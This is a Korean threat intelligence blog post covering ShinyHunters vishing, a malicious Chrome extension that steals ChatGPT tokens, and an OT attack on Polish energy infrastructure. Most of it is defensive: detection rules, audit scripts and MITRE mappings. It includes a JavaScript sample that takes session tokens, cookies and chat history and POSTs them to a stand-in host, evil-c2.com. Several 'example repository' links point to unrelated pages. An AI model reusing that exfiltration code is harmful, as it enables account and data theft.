



## 경영진 요약

### 위협 스코어카드 (Risk Scorecard)

| 위협 | 심각도 | 긴급도 | 현실화 가능성 | 영향 범위 | 비즈니스 영향 |
|------|--------|--------|---------------|-----------|---------------|
| **ShinyHunters 비싱** | 🔴 High | 🔴 Urgent | 85% | Global | 자격증명 유출, 데이터 침해 |
| **악성 Chrome 확장** | 🟠 High | 🟠 High | 70% | Enterprise | AI 서비스 토큰 탈취 |
| **폴란드 OT 공격** | 🔴 Critical | 🟡 Medium | 60% | Energy Sector | 에너지 공급 중단 |

### 한국 영향 분석 (Korean Impact Analysis)

**🇰🇷 한국 기업/기관 위험도:**

| 위협 | 한국 영향도 | 주요 위험 섹터 | 예상 피해 규모 |
|------|-------------|----------------|----------------|
| ShinyHunters 비싱 | **High** | 금융, SaaS, IT 서비스 | 중대형 기업 70% 노출 |
| Chrome 확장 공격 | **Medium** | AI 도입 기업, 연구기관 | ChatGPT 기업 사용자 약 10만명 |
| OT 공격 (폴란드 사례) | **Medium** | 에너지, 제조, 스마트시티 | 국내 풍력/태양광 발전소 500+ 개소 |

**한국 특수 상황:**
- **금융권**: 금융보안원 지침상 SMS OTP 의존도 높음 → ShinyHunters 비싱 고위험
- **제조/에너지**: 스마트팩토리, 스마트그리드 확산 → OT 공격 표면 증가
- **AI 도입**: 국내 ChatGPT Enterprise 도입률 급증 (2025년 전년 대비 300% 증가)

### 경영진 보고 형식 (Board Reporting Format)

**TO**: CEO, CISO, CIO, 이사회 보안위원회
**FROM**: 보안팀
**DATE**: 2026-01-31
**RE**: 긴급 위협 인텔리전스 브리핑 - Q1 2026 주요 사이버 위협

#### 경영진 결정 필요 사항

1. **즉시 투자 필요** (24-48시간):
 - FIDO2 MFA 솔루션 긴급 도입 예산: 약 2-5억원 (1,000명 기준)
 - 브라우저 보안 관리 솔루션 (Chrome Enterprise): 월 500만원
 - OT 네트워크 세그멘테이션 컨설팅: 1-3억원

2. **정책 승인 필요** (1주일 이내):
 - 전사 비싱 경보 발령 및 임직원 교육
 - Chrome 확장 프로그램 허용 목록 정책 강제 적용
 - AI 서비스(ChatGPT 등) 토큰 관리 정책 수립

3. **리스크 수용 결정**:
 - FIDO2 전환 지연 시: 자격증명 유출 사고 발생 확률 **60% 증가**
 - Chrome 확장 정책 미적용 시: 기업 기밀 AI 대화 유출 위험
 - OT 보안 투자 지연 시: 제조/에너지 시설 운영 중단 위험

#### 재무 영향 (Financial Impact)

| 시나리오 | 발생 확률 | 예상 피해액 (원) | 대응 비용 (원) | ROI |
|----------|-----------|------------------|----------------|-----|
| **비싱 공격 성공** | 60% | 5-50억 (데이터 침해, 규제 과태료) | 2-5억 (MFA 전환) | **10:1** |
| **Chrome 확장 유출** | 40% | 3-20억 (기밀 유출, 평판 손실) | 5천만 (정책 배포) | **6:1** |
| **OT 공격** | 20% | 50-500억 (생산 중단, 안전 사고) | 1-3억 (세그멘테이션) | **50:1** |

---

## 서론

안녕하세요, **Twodragon**입니다.

2026년 1월 31일 기준 주요 기술 및 보안 뉴스를 심층 분석했습니다. 이번 주는 ShinyHunters 그룹의 고도화된 비싱(Voice Phishing) 공격과 악성 Chrome 확장 프로그램을 통한 AI 서비스 토큰 탈취, 폴란드 에너지 인프라 대상 OT 공격이 핵심 이슈입니다.

### 이번 주 핵심 위협

| 위협 | 심각도 | 상태 | 즉시 조치 |
|------|--------|------|-----------|
| **ShinyHunters Vishing** | High | 활발한 공격 중 | 피싱 방지 MFA(FIDO2) 전환 |
| **악성 Chrome 확장** | High | PoC 확인 | 확장 프로그램 감사 및 정책 적용 |
| **폴란드 OT 공격** | Critical | 공격 완료/분석 중 | OT 네트워크 세그멘테이션 점검 |
| **CISO 2026 우선순위** | - | Best Practice | AI 보안 거버넌스 검토 |

---

## 1. ShinyHunters Vishing 공격: SaaS MFA 우회 심층 분석

### 1.1 개요

이번 소식은 해당 기술 변화의 배경과 실제 적용 영향을 중심으로 정리했습니다. 실무 적용 전에 영향 범위와 운영 리스크를 평가하고 검증 기준을 확정해야 합니다.

> **출처**: [The Hacker News](https://thehackernews.com/2026/01/mandiant-finds-shinyhunters-using.html)

### 1.2 공격 체인 분석


<details>
<summary>텍스트 버전 (접근성용)</summary>

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)

```mermaid
graph LR
    A["1. Reconnaissance<br/>(OSINT/LinkedIn)"] --> B["2. Vishing Call<br/>(IT Helpdesk Impersonation)"]
    B --> C["3. MFA Intercept<br/>(Real-time Proxy Relay)"]
    C --> D["4. SaaS Access<br/>(Okta, Azure AD)"]
    D --> E["5. Privilege Escalation<br/>(Admin Account Pivoting)"]
    E --> F["6. Data Exfiltration<br/>/ Ransomware"]
    
    style A fill:#ffcccc
    style B fill:#ffcccc
    style C fill:#ffcccc
    style D fill:#ffcccc
    style E fill:#ffcccc
    style F fill:#ff6666

```
-->
-->

</details>

### 1.3 비싱 공격의 기술적 상세

**1단계: 타겟 정찰**
- LinkedIn에서 IT 헬프데스크 직원, 보안팀 연락처 수집
- 대상 기업의 SSO 포털 URL 및 MFA 정책 사전 조사
- 공격에 사용할 전화번호 스푸핑 (발신자 위조)

**2단계: 비싱 콜 실행**
- IT 헬프데스크로 위장하여 직원에게 전화
- "보안 점검", "계정 잠금 해제" 등의 시나리오 활용
- 실시간으로 위조 로그인 페이지 URL 전달

**3단계: MFA 리얼타임 릴레이**
- 피해자가 입력하는 MFA 코드를 실시간으로 가로채기
- **EvilGinx2** 스타일의 리버스 프록시 활용
- 세션 토큰 직접 캡처하여 MFA 완전 우회

### 1.4 방어 전략: 피싱 방지 MFA

#### FIDO2/WebAuthn 전환 가이드

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```powershell
# Azure AD에서 FIDO2 보안 키 정책 활성화 확인
Connect-MgGraph -Scopes "Policy.Read.All"

# FIDO2 인증 메서드 정책 조회
Get-MgPolicyAuthenticationMethodPolicyAuthenticationMethodConfiguration `
    -AuthenticationMethodConfigurationId "fido2" | 
    Select-Object State, Id

# 조건부 접근 정책: MFA 강도 요구 사항 설정
# Authentication Strength → Phishing-resistant MFA 선택
# 포함 방법: FIDO2 Security Key, Windows Hello for Business, Certificate-based

```
-->
-->

#### Okta에서 WebAuthn 강제 적용

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.
>
> ```bash
> # Okta API로 WebAuthn 팩터 등록 현황 조회
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.
>
> ```bash
> # Okta API로 WebAuthn 팩터 등록 현황 조회
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
# Okta API로 WebAuthn 팩터 등록 현황 조회
curl -s -H "Authorization: SSWS ${OKTA_API_TOKEN}" \
    -H "Content-Type: application/json" \
    "https://${OKTA_DOMAIN}/api/v1/users?filter=status%20eq%20%22ACTIVE%22&limit=200" | \
    jq -r '.[] | "\(.profile.email) \(.id)"' | \
    while read email uid; do
        webauthn=$(curl -s -H "Authorization: SSWS ${OKTA_API_TOKEN}" \
            "https://${OKTA_DOMAIN}/api/v1/users/${uid}/factors" | \
            jq '[.[] | select(.factorType == "webauthn")] | length')
        if [ "$webauthn" -eq 0 ]; then
            echo "WARNING: No WebAuthn factor - ${email}"
        fi
    done

```
-->
-->

### 1.5 공격 흐름도 (Attack Flow Diagram)

#### ShinyHunters 비싱 공격 전체 흐름 (ASCII Diagram)

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```
┌─────────────────────────────────────────────────────────────────────┐
│                    ShinyHunters Vishing Attack Chain                │
└─────────────────────────────────────────────────────────────────────┘

Phase 1: Reconnaissance
┌──────────────┐
│   LinkedIn   │────┐
│  OSINT Tools │    │
└──────────────┘    ├──▶ Target Selection
                    │    - IT Helpdesk contacts
┌──────────────┐    │    - SSO portal URLs
│  Company Web │────┘    - MFA policies
└──────────────┘

              │
              ▼

Phase 2: Vishing Call
┌───────────────────────────────────┐
│  Attacker calls target employee  │
│  "Hi, this is IT Helpdesk..."    │
│  - Security check scenario        │
│  - Account locked pretext         │
└───────────────────────────────────┘
              │
              ▼

Phase 3: Credential Phishing Site
┌─────────────────────────────────┐
│  Attacker sends fake login URL  │
│  - Typosquatting domain          │
│  - Reverse proxy (EvilGinx2)     │
│  - Real-time relay to legit SSO  │
└─────────────────────────────────┘
              │
              ▼
┌─────────────────────────────────┐
│   Employee enters credentials   │
│   - Username + Password          │
│   - MFA challenge appears        │
└─────────────────────────────────┘
              │
              ▼

Phase 4: MFA Interception
┌─────────────────────────────────┐
│  Proxy relays MFA to real site  │
│  - SMS OTP                       │
│  - TOTP (Google Authenticator)   │
│  - Push notification approval    │
└─────────────────────────────────┘
              │
              ▼
┌─────────────────────────────────┐
│  Session token captured          │
│  - Cookie: __Host-session        │
│  - JWT access token              │
└─────────────────────────────────┘

              │
              ▼

Phase 5: Persistence & Escalation
┌─────────────────────────────────┐
│  Attacker logs in with token    │
│  - Add MFA bypass device         │
│  - Create backdoor admin account │
│  - Pivot to cloud resources      │
└─────────────────────────────────┘

              │
              ▼

Phase 6: Impact
┌──────────────┬──────────────┬──────────────┐
│ Data Theft   │  Ransomware  │  Extortion   │
│ - PII        │  - Encrypt   │  - Leak data │
│ - IP         │  - Ransom    │  - Reputation│
└──────────────┴──────────────┴──────────────┘

```
-->
-->

#### 비싱 vs 정상 인증 패턴 비교

| 지표 | 정상 사용자 | 비싱 피해자 (ShinyHunters) |
|------|-------------|---------------------------|
| **로그인 위치** | 일반적 지역 | 갑작스러운 새 지역 (프록시 서버) |
| **User-Agent** | 일관된 브라우저 | Python/curl 또는 불일치 |
| **MFA 타입** | FIDO2/WebAuthn | SMS/OTP (가로채기 가능) |
| **세션 수명** | 정상 범위 | 비정상적으로 짧거나 즉시 변경 |
| **접근 리소스** | 업무 관련 | 민감 데이터, 관리자 페이지 |

### 1.6 탐지 및 헌팅

#### SIEM 탐지 룰 (Splunk SPL)

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```spl
index=okta sourcetype=OktaIM2:log
| where eventType IN ("user.session.start", "user.authentication.auth_via_mfa")
| eval is_suspicious=case(
    like(client.ipAddress, "10.%") AND client.geographicalContext.country!="KR", 1,
    match(client.userAgent.rawUserAgent, "(?i)(python|curl|httpie|postman)"), 1,
    1=1, 0)
| where is_suspicious=1
| eval mfa_type=mvindex(split(debugContext.debugData.factor, ";"), 0)
| stats count dc(client.ipAddress) as unique_ips values(mfa_type) as mfa_types 
    by actor.displayName, actor.alternateId
| where count > 3 OR unique_ips > 2
| table actor.displayName, actor.alternateId, count, unique_ips, mfa_types

```
-->
-->

<!--
SIEM Detection Query: Azure Sentinel KQL
목적: ShinyHunters 비싱 공격 탐지 - MFA 우회 의심 패턴
데이터 소스: Azure AD Sign-in Logs, Conditional Access Logs

SigninLogs
| where TimeGenerated > ago(1h)
| where ResultType == 0 // Successful sign-in
| extend MfaMethod = tostring(parse_json(AuthenticationDetails)[0].authenticationMethod)
| extend IsSuspicious =
 case(
 IPAddress startswith "10." and Location != "KR", 1, // VPN/Proxy from unexpected location
 UserAgent contains "python" or UserAgent contains "curl", 1, // Automated tool
 MfaMethod in ("SMS", "PhoneAppNotification") and DeviceTrustType != "Compliant", 1, // Phishable MFA
 1, 0
 )
| where IsSuspicious == 1
| summarize
 EventCount = count(),
 UniqueIPs = dcount(IPAddress),
 UniqueLocations = dcount(Location),
 MfaMethods = make_set(MfaMethod),
 FirstSeen = min(TimeGenerated),
 LastSeen = max(TimeGenerated)
 by UserPrincipalName, AppDisplayName
| where EventCount > 3 or UniqueIPs > 2
| project
 UserPrincipalName,
 AppDisplayName,
 EventCount,
 UniqueIPs,
 UniqueLocations,
 MfaMethods,
 FirstSeen,
 LastSeen
| order by EventCount desc
-->

#### Threat Hunting Query (추가 헌팅 쿼리)

**목표**: 비싱 공격 후 생성된 백도어 MFA 디바이스 탐지

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```spl
# Splunk: 최근 24시간 내 새로 등록된 MFA 디바이스 확인
index=okta sourcetype=OktaIM2:log eventType="user.mfa.factor.activate"
| eval registration_time=_time
| join type=left actor.alternateId
    [search index=okta eventType IN ("user.session.start", "user.authentication.sso")
     | eval last_login=_time
     | stats latest(last_login) as last_login by actor.alternateId]
| eval time_since_login=registration_time-last_login
| where time_since_login < 300  # 5분 이내
| eval factor_type=mvindex(split(debugContext.debugData.factor, ";"), 0)
| table _time, actor.displayName, actor.alternateId, factor_type,
    client.ipAddress, client.geographicalContext.country, time_since_login
| sort - _time

```
-->
-->

#### Sigma Rule

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
>
> ```yaml
> title: Suspicious MFA Authentication Pattern - Potential Vishing (ShinyHunters)
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
>
> ```yaml
> title: Suspicious MFA Authentication Pattern - Potential Vishing (ShinyHunters)
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
title: Suspicious MFA Authentication Pattern - Potential Vishing (ShinyHunters)
id: b7d3e1a9-5678-4321-abcd-112233445566
status: stable
description: Detects unusual MFA authentication patterns potentially indicating vishing-assisted credential theft
author: Twodragon
date: 2026/01/31
references:
    - https://thehackernews.com/2026/01/mandiant-finds-shinyhunters-using.html
    - https://attack.mitre.org/techniques/T1566/004/
logsource:
    product: okta
    service: okta
detection:
    selection_event:
        eventType:
            - 'user.session.start'
            - 'user.authentication.auth_via_mfa'
    selection_suspicious:
        outcome.result: 'SUCCESS'
        debugContext.debugData.factor|contains:
            - 'OTP'
            - 'SMS'
            - 'CALL'
    filter_webauthn:
        debugContext.debugData.factor|contains:
            - 'FIDO'
            - 'webauthn'
    timeframe: 5m
    condition: selection_event and selection_suspicious and not filter_webauthn | count() by actor.alternateId > 3
falsepositives:
    - Legitimate help desk password resets
    - Automated service accounts
level: high
tags:
    - attack.initial_access
    - attack.t1566.004
    - attack.t1078
    - attack.t1539

```
-->
-->

### 1.6 MITRE ATT&CK 매핑

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
>
> ```yaml
> mitre_attack:
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
>
> ```yaml
> mitre_attack:
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
mitre_attack:
  initial_access:
    - T1566.004  # Phishing: Voice Phishing (Vishing)
    - T1078      # Valid Accounts
  credential_access:
    - T1539      # Steal Web Session Cookie
    - T1557      # Adversary-in-the-Middle
    - T1111      # Multi-Factor Authentication Interception
  persistence:
    - T1098      # Account Manipulation
  impact:
    - T1657      # Financial Theft
    - T1486      # Data Encrypted for Impact

```
-->
-->

---

## 2. 악성 Chrome 확장: ChatGPT 토큰 탈취 분석

### 2.1 개요

이번 소식은 해당 기술 변화의 배경과 실제 적용 영향을 중심으로 정리했습니다. 실무 적용 전에 영향 범위와 운영 리스크를 평가하고 검증 기준을 확정해야 합니다.

> **출처**: [The Hacker News](https://thehackernews.com/2026/01/researchers-uncover-chrome-extensions.html)

### 2.2 공격 메커니즘

#### Chrome 확장 공격 흐름도 (Attack Flow Diagram)

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
>
> ```
> ┌─────────────────────────────────────────────────────────────────────┐
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
>
> ```
> ┌─────────────────────────────────────────────────────────────────────┐
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```
┌─────────────────────────────────────────────────────────────────────┐
│            Malicious Chrome Extension Attack Chain                  │
└─────────────────────────────────────────────────────────────────────┘

Phase 1: Distribution
┌────────────────────┐
│  Chrome Web Store  │
│  "Amazon Ads       │
│   Blocker" (fake)  │───▶ User searches for extension
└────────────────────┘    User installs (5000+ fake reviews)
         │
         ▼
┌────────────────────┐
│  manifest.json     │
│  Permissions:      │
│  - cookies         │───▶ Full access to user data
│  - webRequest      │
│  - <all_urls>      │
└────────────────────┘

Phase 2: Installation & Activation
┌─────────────────────────────────────┐
│  Extension installs silently        │
│  - content_scripts.js injected      │
│  - background.js runs persistent    │
│  - No visible UI changes            │
└─────────────────────────────────────┘
              │
              ▼

Phase 3: Target Detection
┌─────────────────────────────────────┐
│  Monitors browser URLs:             │
│  - chat.openai.com                  │
│  - platform.openai.com              │
│  - claude.ai                        │
│  - gemini.google.com                │
└─────────────────────────────────────┘
              │
              ▼

Phase 4: Data Exfiltration
┌───────────────────────────────────────────┐
│  Target: chat.openai.com                  │
│  ┌─────────────────────────────────────┐  │
│  │  Steal from localStorage:           │  │
│  │  - __Secure-next-auth.session-token │  │
│  │  - user_preferences                 │  │
│  └─────────────────────────────────────┘  │
│  ┌─────────────────────────────────────┐  │
│  │  Steal from Cookies:                │  │
│  │  - __Secure-next-auth.callback-url  │  │
│  └─────────────────────────────────────┘  │
│  ┌─────────────────────────────────────┐  │
│  │  Scrape DOM:                        │  │
│  │  - Chat history text                │  │
│  │  - API keys (if displayed)          │  │
│  └─────────────────────────────────────┘  │
└───────────────────────────────────────────┘
              │
              ▼

Phase 5: Affiliate Link Hijacking (Parallel)
┌────────────────────────────────────┐
│  webRequest.onBeforeRequest        │
│  Intercepts:                       │
│  - amazon.com?tag=original         │
│  Modifies to:                      │
│  - amazon.com?tag=attacker_id      │
└────────────────────────────────────┘
              │
              ▼

Phase 6: Command & Control
┌────────────────────────────────────┐
│  Exfiltrate to C2:                 │
│  - https://evil-c2.com/api/collect │
│  - POST JSON payload:              │
│    {                               │
│      "session_token": "sess-...",  │
│      "user_id": "user-...",        │
│      "chat_history": [...],        │
│      "timestamp": "..."            │
│    }                               │
└────────────────────────────────────┘
              │
              ▼

Phase 7: Monetization
┌──────────────┬──────────────┬──────────────┐
│ Sell Tokens  │  Account     │  Corporate   │
│ on Dark Web  │  Takeover    │  Espionage   │
│ $50-500/acc  │  - Crypto    │  - IP theft  │
└──────────────┴──────────────┴──────────────┘

```
-->
-->

#### 악성 확장 프로그램 코드 예시 (분석용)

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/nodejs/node/tree/main/doc)를 참조하세요.
>
> ```javascript
> // content_scripts.js (악성 코드 예시 - 분석 목적)
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/nodejs/node/tree/main/doc)를 참조하세요.
>
> ```javascript
> // content_scripts.js (악성 코드 예시 - 분석 목적)
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```javascript
// content_scripts.js (악성 코드 예시 - 분석 목적)
// 주의: 실제 환경에서 실행하지 말 것

(function() {
  // Target detection
  if (window.location.hostname.includes('openai.com')) {

    // Steal session token from localStorage
    const sessionToken = localStorage.getItem('__Secure-next-auth.session-token');

    // Steal cookies
    const cookies = document.cookie;

    // Scrape chat history from DOM
    const chatMessages = Array.from(
      document.querySelectorAll('[data-message-author-role]')
    ).map(el => el.innerText);

    // Exfiltrate to C2
    fetch('https://evil-c2.com/api/collect', {
      method: 'POST',
      headers: {'Content-Type': 'application/json'},
      body: JSON.stringify({
        session_token: sessionToken,
        cookies: cookies,
        chat_history: chatMessages,
        url: window.location.href,
        timestamp: new Date().toISOString()
      })
    }).catch(() => {}); // Silent failure
  }
})();

```
-->
-->

<!--
SIEM Detection Query: Splunk SPL
목적: Chrome 확장 프로그램 악성 행위 탐지
데이터 소스: Proxy logs, Endpoint Detection, Chrome Enterprise Telemetry

index=proxy sourcetype=web_proxy
| where url_domain IN ("evil-c2.com", "*.xyz", "*.top") # Known malicious TLDs
| where http_method="POST"
| where bytes_out > 10000 # Large data exfiltration
| eval is_suspicious=case(
 like(url_path, "%/api/collect%"), 1,
 like(url_path, "%/api/upload%"), 1,
 match(url_query, "(?i)(token|session|key)"), 1,
 1, 0
 )
| where is_suspicious=1
| stats count, sum(bytes_out) as total_bytes, values(url_domain) as domains
 by src_ip, user
| where count > 5 OR total_bytes > 100000
| table _time, src_ip, user, count, total_bytes, domains
-->

**ChatGPT 토큰 탈취 흐름:**


<details>
<summary>텍스트 버전 (접근성용)</summary>

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)

```mermaid
sequenceDiagram
    participant User as User
    participant ChromeStore as Chrome Web Store
    participant Extension as Malicious Extension
    participant ChatGPT as chat.openai.com
    participant C2 as C2 Server
    
    User->>ChromeStore: Install Extension
    ChromeStore->>Extension: Deploy Extension
    Extension->>Extension: Inject content_scripts.js
    Extension->>ChatGPT: Access DOM/Storage
    ChatGPT->>Extension: sessionStorage/localStorage/Cookies
    Extension->>Extension: Collect Tokens + Chat History
    Extension->>C2: Exfiltrate Data
    C2->>C2: Store Stolen Credentials

```
-->
-->

</details>

**탈취되는 데이터:**
1. **OpenAI 세션 토큰** (`__Secure-next-auth.session-token`)
2. **API 키** (localStorage에 저장된 경우)
3. **대화 기록** (기업 기밀 정보 포함 가능)
4. **어필리에이트 링크** (Amazon, 기타 e-commerce 사이트)

### 2.3 기업 환경 브라우저 보안

#### Chrome 확장 프로그램 관리 정책 (GPO)

```
Computer Configuration → Administrative Templates → Google Chrome → Extensions:
├── Configure allowed extension types: component, hosted_app
├── Configure extension installation allowlist: [승인된 확장 ID만]
├── Configure extension installation blocklist: * (전체 차단, 허용 목록만 예외)
├── Block external extensions: Enabled
└── Extension settings:
    └── Force-install specific extensions from CWS
```

#### 확장 프로그램 감사 스크립트 (PowerShell)

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```powershell
# Chrome 확장 프로그램 전수 조사
$users = Get-ChildItem "C:\Users" -Directory
$suspiciousPerms = @("cookies", "webRequest", "webRequestBlocking", "storage", "tabs", "<all_urls>")

foreach ($user in $users) {
    $extPath = Join-Path $user.FullName "AppData\Local\Google\Chrome\User Data\Default\Extensions"
    if (Test-Path $extPath) {
        Get-ChildItem $extPath -Directory | ForEach-Object {
            $manifestFiles = Get-ChildItem $_.FullName -Recurse -Filter "manifest.json"
            foreach ($mf in $manifestFiles) {
                try {
                    $manifest = Get-Content $mf.FullName -Raw | ConvertFrom-Json
                    $perms = @($manifest.permissions) + @($manifest.host_permissions) | Where-Object { $_ }
                    $hasRisk = $perms | Where-Object { $_ -in $suspiciousPerms -or $_ -match "^\*|<all_urls>" }

                    if ($hasRisk) {
                        [PSCustomObject]@{
                            User        = $user.Name
                            Extension   = $manifest.name
                            Version     = $manifest.version
                            Permissions = ($hasRisk -join ", ")
                            Path        = $mf.DirectoryName
                        }
                    }
                } catch { }
            }
        }
    }
} | Format-Table -AutoSize

```
-->
-->

#### Linux/macOS 환경 감사 스크립트

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.
>
> ```bash
> #!/bin/bash
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.
>
> ```bash
> #!/bin/bash
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
#!/bin/bash
# Chrome 확장 프로그램 보안 감사
CHROME_EXT_DIR="${HOME}/.config/google-chrome/Default/Extensions"
[ "$(uname)" = "Darwin" ] && CHROME_EXT_DIR="${HOME}/Library/Application Support/Google/Chrome/Default/Extensions"

echo "=== Chrome Extension Security Audit ==="
echo "Date: $(date -u +%Y-%m-%dT%H:%M:%SZ)"
echo "Host: $(hostname)"
echo ""

RISKY_PERMS=("cookies" "webRequest" "webRequestBlocking" "<all_urls>" "debugger" "nativeMessaging")

find "$CHROME_EXT_DIR" -name "manifest.json" 2>/dev/null | while read -r manifest; do
    name=$(jq -r '.name // "Unknown"' "$manifest" 2>/dev/null)
    version=$(jq -r '.version // "?"' "$manifest" 2>/dev/null)
    perms=$(jq -r '(.permissions // []) + (.host_permissions // []) | .[]' "$manifest" 2>/dev/null)

    risk_found=false
    for perm in "${RISKY_PERMS[@]}"; do
        if echo "$perms" | grep -q "$perm"; then
            risk_found=true
            break
        fi
    done

    if $risk_found; then
        echo "RISK: ${name} v${version}"
        echo "  Path: $(dirname "$manifest")"
        echo "  Risky Permissions: $(echo "$perms" | tr '\n' ', ')"
        echo ""
    fi
done

echo "=== Audit Complete ==="

```
-->
-->

#### Threat Hunting: 악성 확장 프로그램 네트워크 활동 탐지

**목표**: 확장 프로그램이 AI 서비스 토큰을 외부로 전송하는 패턴 탐지

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
```spl
# Splunk: Chrome 확장에서 발생한 의심스러운 POST 요청
index=proxy sourcetype=bluecoat (OR sourcetype=palo_alto)
| where http_method="POST"
| where url_domain NOT IN ("google.com", "googleapis.com", "openai.com", "anthropic.com")
| eval payload_size=bytes_out
| where payload_size > 5000  # 큰 데이터 전송
| eval has_token_pattern=if(match(url_query, "(?i)(token|session|key|auth)"), 1, 0)
| where has_token_pattern=1 OR payload_size > 50000
| stats
    count,
    sum(payload_size) as total_bytes,
    values(url_domain) as suspicious_domains,
    values(user_agent) as user_agents
    by src_ip, user
| where count > 3 OR total_bytes > 100000
| table _time, src_ip, user, count, total_bytes, suspicious_domains, user_agents
| sort - total_bytes

```
-->
-->

<!--
SIEM Detection Query: Azure Sentinel KQL
목적: Chrome 확장 프로그램 데이터 유출 탐지
데이터 소스: Office 365 Defender for Endpoint, Network Connection Events

DeviceNetworkEvents
| where TimeGenerated > ago(24h)
| where InitiatingProcessFileName == "chrome.exe"
| where RemoteUrl !startswith "https://google.com"
 and RemoteUrl !startswith "https://openai.com"
 and RemoteUrl !startswith "https://anthropic.com"
| where ActionType == "ConnectionSuccess"
| extend BytesSent_MB = BytesSent / 1048576
| where BytesSent > 10485760 // 10MB+
| summarize
 ConnectionCount = count(),
 TotalBytesSent_MB = sum(BytesSent_MB),
 UniqueRemoteIPs = dcount(RemoteIP),
 RemoteDomains = make_set(RemoteUrl)
 by DeviceName, InitiatingProcessAccountName
| where ConnectionCount > 5 or TotalBytesSent_MB > 50
| project
 DeviceName,
 InitiatingProcessAccountName,
 ConnectionCount,
 TotalBytesSent_MB,
 UniqueRemoteIPs,
 RemoteDomains
| order by TotalBytesSent_MB desc
-->

### 2.5 MITRE ATT&CK 매핑

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
>
> ```yaml
> mitre_attack:
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.
>
> ```yaml
> mitre_attack:
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
mitre_attack:
  initial_access:
    - T1189      # Drive-by Compromise (Extension Install)
  collection:
    - T1185      # Browser Session Hijacking
    - T1539      # Steal Web Session Cookie
    - T1005      # Data from Local System
  credential_access:
    - T1528      # Steal Application Access Token
  command_and_control:
    - T1071.001  # Web Protocols (HTTPS to C2)

```
-->
-->

---

## 3. 폴란드 에너지 인프라 OT 공격: CERT Polska 분석

### 3.1 개요

이번 소식은 해당 기술 변화의 배경과 실제 적용 영향을 중심으로 정리했습니다. 실무 적용 전에 영향 범위와 운영 리스크를 평가하고 검증 기준을 확정해야 합니다.

> **출처**: [The Hacker News](https://thehackernews.com/2026/01/poland-attributes-december-cyber.html)

### 3.2 OT/ICS 공격 트렌드

**에너지 섹터 사이버 공격 증가 추세:**

| 연도 | 주요 사건 | 영향 |
|------|-----------|------|
| 2015 | 우크라이나 전력망 공격 (BlackEnergy) | 23만 가구 정전 |
| 2021 | Colonial Pipeline | 미 동부 연료 공급 중단 |
| 2023 | 덴마크 에너지 섹터 공격 | 22개 에너지 기업 침해 |
| 2025 | 폴란드 에너지 인프라 | 30+ 발전소, 50만명 영향 |

### 3.3 OT 네트워크 방어 가이드

#### IT/OT 네트워크 세그멘테이션


<details>
<summary>텍스트 버전 (접근성용)</summary>

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)

```mermaid
graph TD
    A["Enterprise Zone<br/>(Active Directory, Email, Web Server)"]
    B["DMZ / Data Diode<br/>(Unidirectional Gateway)"]
    C["OT Supervisory Zone<br/>(SCADA, Historian, HMI)"]
    D["Firewall<br/>(Allowlist Only)"]
    E["OT Control Zone<br/>(PLC, RTU, IED Devices)"]
    
    A -->|Restricted Access| B
    B -->|One-way Data Flow| C
    C -->|Strict Rules| D
    D -->|Critical Control| E
    
    style A fill:#e1f5ff
    style B fill:#fff3e0
    style C fill:#f3e5f5
    style D fill:#ffebee
    style E fill:#c8e6c9

```
-->
-->

</details>

#### OT 환경 보안 점검 스크립트

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.
>
> ```bash
> #!/bin/bash
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
